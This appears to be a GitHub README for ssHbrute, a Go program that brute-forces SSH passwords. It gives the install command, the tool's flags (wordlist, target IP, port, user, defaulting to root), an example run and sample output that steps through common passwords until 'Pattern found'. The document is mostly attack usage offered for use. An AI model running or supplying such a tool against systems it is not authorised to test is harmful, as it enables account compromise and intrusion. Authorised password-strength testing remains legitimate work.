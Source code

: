 # ssHbrute

This is a program written in Golang for SSH brute force attacks, needs improvements but works well and is fast.

```sh
go get github.com/0xSojalSec/ssHbrute
```

```sh
ssHbrute --help
```

```txt
Usage of ssHbrute:
  -file string
        indicate wordlist file to use (default "wordlistfile.txt")
  -ip string
        indicate the ip address to brute force (default "192.168.125.100")
  -port int
        indicate port to brute force (default 22)
  -timer duration
        set timeout to ssh dial response (ex:300ms), don't set this too low (default 200ms)
  -user string
        indicate user to brute force (default "root")
```

```sh
ssHbrute -user username -timer=200ms
```

```txt
file: wordlistfile.txt
ip: 192.168.125.100
port: 22
user: username
timer: 200ms
additional args: []
Failed: 123456 ---Failed: 12345 ---Failed: money ---Failed: password ---Failed:
mickey ---Failed: password1 ---Failed: 123456789 ---Failed: 12345678 ---Failed:
.
.
.
---Failed: randy ---Failed: reddog ---Failed: rebecca ---
+++ Pattern found: SuperSecret +++

Completed in 60.273904113 seconds
+++ FOUND +++
```

If the sshd is using "PasswordAuthentication no" it won't work.
